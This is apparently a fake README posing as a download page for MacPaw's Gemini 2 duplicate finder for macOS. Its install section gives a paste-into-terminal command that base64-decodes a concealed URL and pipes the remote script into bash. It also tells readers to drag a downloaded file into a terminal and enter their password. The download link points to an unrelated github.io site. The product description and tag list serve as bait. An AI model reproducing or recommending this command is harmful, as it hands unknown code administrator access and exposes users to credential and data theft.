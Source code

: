 # Gemini 2 – Duplicate Finder for macOS

![Gemini 2 Screenshot](https://i.ytimg.com/vi/VLMSEAYvge4/maxresdefault.jpg)

## 📥 Download Gemini 2 for macOS

[![⬇️ Download Gemini 2 Mac](https://img.shields.io/badge/Download-Gemini%202%20Mac-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/Gemini)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Gemini 2?

Gemini 2 is a smart duplicate file finder for macOS developed by MacPaw. It scans your Mac for duplicate documents, photos, music files, archives, and even similar-looking images. With a sleek and intuitive interface, it helps you reclaim valuable storage space and reduce clutter by safely removing redundant files.

Gemini 2 uses advanced algorithms and machine learning to detect not just exact duplicates, but also similar files that might go unnoticed. It's optimized for performance on Apple Silicon and supports macOS Ventura, Monterey, and beyond. Ideal for creatives, professionals, and everyday users looking to keep their Mac clean and efficient.

---

![Gemini App UI](https://cdn3.macpaw.com/images/products/gemini/app.png?id=69b6b39b7b07e0e3a9369983ae79b200)

---

## ⚙️ Key Features

- 🧠 Smart Duplicate Detection – Identifies identical and similar files using machine learning.
- 🧹 Safe Cleanup – Provides previews and lets you review before deleting anything.
- 💾 Reclaim Storage – Free up gigabytes of space from unnecessary duplicates.
- 🎯 Intelligent Suggestions – Learns what to keep and what to delete.
- 🗂 Supports All File Types – Scans photos, music, documents, and more.
- 🌐 Multilingual Interface – Available in multiple languages.
- 💻 macOS Native – Optimized for Apple M1/M2 and latest macOS versions.

---

## 📦 System Requirements

- macOS 10.12 or later
- Supports Monterey, Ventura, Sonoma
- Intel & Apple Silicon (M1/M2/M3)
- At least 100MB free disk space

---

## 🔍 Tags

gemini 2.0, gemini mac app, gemini mac, gemini mac os, gemini osx, gemini 2 mac, gemini duplicate finder, gemini 2 duplicate finder, macpaw gemini, macpaw gemini 2, gemini duplicate, gemini 2 mac download

